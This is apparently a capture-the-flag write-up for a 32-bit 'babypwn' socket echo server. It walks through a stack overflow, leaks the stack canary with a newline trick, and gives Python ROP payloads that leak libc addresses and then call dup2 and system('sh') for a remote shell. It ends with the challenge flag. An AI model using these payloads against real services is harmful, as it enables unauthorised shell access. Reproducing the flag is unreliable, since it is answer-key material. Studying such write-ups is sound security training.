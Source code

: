 ## Analyzing

32 bits ELF, Partial RELRO, with canary & NX, no PIE.

There is an obvious stack overflow vulnerablility, but this program uses `socket`, actually I haven't learned about socket programing so I won't talk too much about it, since all we need to do due to `fork` is dealing with file descriptor. 

Main operation is in `0x08048A71` function, and previous operation was setup of socket or sth. If you want to test this program locally:

* First run command `ncat -vc ./babypwn -kl 127.0.0.1 4000`
* Second, after looking into the src, we need to `nc localhost 4000` first then our socket program will be started up. After that, we can test our program by port 8181(`nc localhost 8181`).


The behavior of this program is simple:

```
===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu > 1
Input Your Message : AAAA
AAAA

===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu >
```

Just an echo server, at first glance, I thought there was a format string vulnerablility, but it wasn't. It is just an echo server. However, we can overflow the stack when it takes the input. And we will use this vulnerablility to leak canary to do later exploit.

## Exploit

**Overflow**

I use ida pro.

```c
char buf[40]; // [sp+24h] [bp-34h]@1
...
socket_recv(buf, 100) // socket_recv == 0x08048907
```

Here is an obvious overflow. Therefore, we can calculate offset for canary then make buffer on stack look like this:

```
0xff951f54:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f64:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f74:     0x41414141      0x41414141      0x4409b50a      0x00000000
```

`0x4409b50a` is our canary, since the first byte of canary would be '\x00', I use the newline to overwrite it so that we can leak the last 3 bytes. After we get the `0x4409b50a`, we just need to change newline back to null byte then we get the canary of this binary. So the real canary is `0x4409b500`.

With canary, we can bypass the stack guard. I will use it to do the first ROP. In the first ROP, I will leak the file descriptor for the socket and the libc function address in order to get the version of libc by using [libc database](http://libcdb.com).

First ROP payload:

```python
socket_send = 0x080488B1
pop1 = 0x08048589
sigemptyset_got = 0x0804B048
echo_select = 0x08048A71
fd_address = 0x0804B1B8
rop1 = [socket_send, pop1, sigemptyset_got, 
        socket_send, echo_select, fd_address]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop1))
```

After placing the ROP gadgets, we need to choose choice 3 to return, then it will return to our ROP gadgets.

I use the [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find the gadget `pop1` which pop once then ret. Since we need to do the second ROP(duplicate file descriptor and open the shell) after leaking information, I make the end of the first ROP return to the `0x08048A71`(function of main operation).


After finding out the version of libc, we can get the libc base. In the second ROP, I will use `dup2` to copy the fd of socket to stdin and stdout then open the shell.(Use dup2 so that we can get the interactive shell)

```python
pop2 = 0x08048B84
sh = base + next(libc.search('sh\x00'))
rop2 = [dup2, pop2, fd, 1,
        dup2, pop2, fd, 0,
        system, 0xdeadbeef, sh]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop2))
```

Again, choose the choice 3 to return then open the shell!

FLAG{GoodJob~!Y0u@re_Very__G@@d!!!!!!^.^}
